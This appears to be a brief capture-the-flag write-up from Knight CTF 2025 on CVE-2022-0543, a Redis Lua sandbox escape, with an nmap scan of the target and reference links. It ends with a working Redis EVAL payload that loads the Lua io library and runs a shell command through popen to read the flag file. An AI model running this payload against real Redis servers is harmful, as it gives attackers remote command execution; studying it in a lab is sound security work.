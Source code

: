 ```yaml
---
date: 2025-01-22
description: Redis RCE CVE-2022-0543
platform: Knight CTF 2025
categories: Web, Network
tags:
  - redis
  - RCE
duration:
---
```


# Vulnerability
```bash
nmap -sV 172.105.121.246 -p 6379
Starting Nmap 7.95 ( https://nmap.org ) at 2025-01-21 15:32 PST
Nmap scan report for 172-105-121-246.ip.linodeusercontent.com (172.105.121.246)
Host is up (0.13s latency).

PORT     STATE SERVICE VERSION
6379/tcp open  redis   Redis key-value store 5.0.7
```
References 
- https://github.com/vulhub/vulhub/tree/master/redis/CVE-2022-0543
- https://www.ubercomp.com/posts/2022-01-20_redis_on_debian_rce
- https://www.hackthebox.com/blog/red-island-ca-ctf-2022-web-writeup

```sh
eval 'local io_l = package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so.0", "luaopen_io"); local io = io_l(); local f = io.popen("cat /flag.txt", "r"); local res = f:read("*a"); f:close(); return res' 0
```